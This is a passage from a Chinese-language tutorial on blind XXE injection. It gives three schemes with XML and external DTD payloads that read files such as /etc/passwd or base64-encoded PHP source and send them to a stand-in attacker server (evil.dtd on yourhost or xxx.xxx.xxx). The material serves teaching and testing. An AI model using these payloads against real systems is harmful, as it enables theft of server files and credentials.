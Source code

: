 3. 创建test.xml并写入以下内容：

```xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">
```

- 当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

#### blind xxe漏洞方案2：

- 可以将文件内容发送到远程服务器，然后读取。

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
        <!ENTITY % f SYSTEM "http://yourhost/evil.dtd">
        %f;
]>
<a>&b;</a>
$data = simplexml_load_string($xml);
print_r($data);
```



远程服务器的evil DTD文件内容

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```



#### blind xxe漏洞方案3：

- 可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。

 

```xml
<?xml version=”1.0”?>
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php"> # /etc/issue
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
%dtd;
%send;
]>
```



evil.dtd的内容，内部的%号要进行实体编码成&#x25。



```xml
<!ENTITY % all
“<!ENTITY &#x25; send SYSTEM ‘http://xxx.xxx.xxx/?%file;’>”
>
%all;
```
